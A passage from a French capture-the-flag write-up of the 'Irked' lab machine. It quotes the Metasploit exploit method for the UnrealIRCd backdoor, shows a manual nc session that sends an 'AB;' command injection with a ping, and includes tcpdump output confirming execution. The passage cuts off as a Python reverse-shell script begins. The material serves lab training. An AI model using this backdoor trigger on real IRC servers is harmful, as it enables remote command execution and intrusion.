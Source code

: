Voilà nous avons enfin accès au fichier nous allons essayer de lire le fichier ruby.

    def exploit
        connect

        print_status("Connected to #{rhost}:#{rport}...")
        banner = sock.get_once(-1, 30)
        banner.to_s.split("\n").each do |line|
          print_line("    #{line}")
        end

        print_status("Sending backdoor command...")
        sock.put("AB;" + payload.encoded + "\n") # Tout ce passe ici.

        # Wait for the request to be handled
        1.upto(120) do
          break if session_created?
          select(nil, nil, nil, 0.25)
          handler()
        end
        disconnect
      end
    end

Voilà comme vous pouvez le voir **sock.put("AB;" + payload.encoded + "\n")** l'exécution du code se passe ici, vous pouvez essayer par vous-même avec le protocole **Telnet** ou bien avec le programme **nc**. Vous pouvez par exemple envoyer une commande **AB; ping -c 1 10.10.13.181** et récupérer les datagrammes ICMP.

    root@Computer:/home/seyptoo# nc 10.10.10.117 8067
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
    AB; ping -c 1 10.10.12.164


    root@Computer:/home/seyptoo# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    17:53:47.933432 IP 10.10.10.117 > 10.10.13.181: ICMP echo request, id 1641, seq 1, length 64
    17:53:47.933485 IP 10.10.13.181 > 10.10.10.117: ICMP echo reply, id 1641, seq 1, length 64
    
Une commande basique et nous recevons bien les paquets ICMP. J'ai créé un outil en python pour faire un reverse shell.

    #coding:utf-8

    import sys
    import socket

    try:
            # Let's test if the arguments are open during execution.
            # The host and the port are the services to attack.

